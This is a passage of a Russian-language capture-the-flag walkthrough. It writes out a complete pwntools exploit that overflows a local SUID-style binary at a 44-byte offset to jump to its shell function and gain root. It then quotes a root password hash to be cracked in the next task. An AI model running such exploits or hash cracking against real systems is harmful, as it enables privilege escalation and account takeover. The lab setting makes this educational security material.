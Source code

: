 Мы знаем, что нам нужен адрес памяти функции оболочки, и pwntools предоставляет способ получить его с помощью ELF().

ELF позволяет нам получать различные адреса памяти важных точек в нашем двоичном файле, включая адрес памяти функции 
оболочки. 

С добавлением ELF наш скрипт становится

```commandline
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```

shell_func содержит адрес памяти нашей функции оболочки. Теперь нам нужен способ формирования полезной нагрузки, к 
счастью, pwntools имеет это с fit(). 

fit позволяет нам формировать полезную нагрузку, комбинируя символы и наш адрес памяти. Чтобы отправить полезную 
нагрузку, мы можем использовать метод в нашей proc переменной proc.sendline(), который просто отправляет любые данные,
которые мы хотим, в двоичный файл. Наконец, мы можем использовать proc.interactive(), чтобы просмотреть полный вывод 
процесса.   

При всем этом наш окончательный сценарий эксплойта становится
```commandline
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

Сохраните это в файле .py и запустите его. Вы должны получить следующий вывод:

Мы сделали это снова!

### Ответьте на вопросы ниже
Еще больше ууууу!
```commandline
Ответ не нужен
```

## Задание 10
Теперь, когда у нас есть хэши паролей, мы можем взломать их и получить пароль root! Вспомним из предыдущих выводов, 
что наш хэш пароля root — это " $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.". 
